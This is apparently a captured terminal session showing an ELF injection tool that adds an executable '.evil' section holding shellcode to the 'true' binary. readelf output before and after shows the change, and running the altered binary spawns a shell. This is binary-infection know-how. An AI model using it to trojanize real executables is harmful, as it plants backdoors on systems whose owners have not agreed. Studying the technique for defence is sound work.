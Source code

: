     Section Headers:
    ....
      [11] .init             PROGBITS         0000000000401030  00001030
           000000000000001a  0000000000000000  AX       0     0     4
      [12] .plt              PROGBITS         0000000000401050  00001050
           0000000000000310  0000000000000010  AX       0     0     16
      [13] .text             PROGBITS         0000000000401360  00001360
           0000000000002a39  0000000000000000  AX       0     0     16
    ....
    Key to Flags:
      W (write), A (alloc), X (execute), M (merge), S (strings), l (large)
      I (info), L (link order), G (group), T (TLS), E (exclude), x (unknown)
      O (extra OS processing required) o (OS specific), p (processor
    specific)


    james@proto $ ./inject shellcode.dat true
    Section .evil injected into true
    james@proto $ readelf -S true
    There are 29 section headers, starting at offset 0x65a6:

    Section Headers:
    ....
      [11] .init             PROGBITS         0000000000401030  00001030
           000000000000001a  0000000000000000  AX       0     0     4
      [12] .plt              PROGBITS         0000000000401050  00001050
           0000000000000310  0000000000000010  AX       0     0     16
      [13] .evil             PROGBITS         0000000000401360  00001360
           0000000000000035  0000000000000000  AX       0     0     4
      [14] .text             PROGBITS         0000000000401460  00001460
           0000000000002a39  0000000000000000  AX       0     0     16
    ....
    Key to Flags:
      W (write), A (alloc), X (execute), M (merge), S (strings), l (large)
      I (info), L (link order), G (group), T (TLS), E (exclude), x (unknown)
      O (extra OS processing required) o (OS specific), p (processor
    specific)

    james@proto $ ./true
    sh-4.3$ echo pwned
    pwned


